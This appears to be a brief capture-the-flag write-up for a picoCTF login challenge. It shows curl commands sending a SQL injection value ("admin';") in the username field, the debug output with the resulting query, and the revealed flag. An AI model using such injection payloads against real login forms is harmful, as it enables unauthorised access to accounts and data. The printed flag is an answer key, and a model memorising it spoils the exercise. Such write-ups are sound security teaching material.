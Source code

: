 ## Objetivo 

here is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` ([link](https://jupiter.challenges.picoctf.org/problem/64649/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

## Solución  

```bash

                             
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username-admin&password=password&debug=1"   

<pre>username: 
password: password
SQL query: SELECT * FROM users WHERE name='' AND password='password'
</pre><h1>Login failed.</h1>                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/64649/login.php -d "username=admin';&password=password&debug=1"     

<pre>username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>                                                                                                                    
┌──(kali㉿kali)-[~]
└─$ 


```

## Notas Adicionales 

### Referencias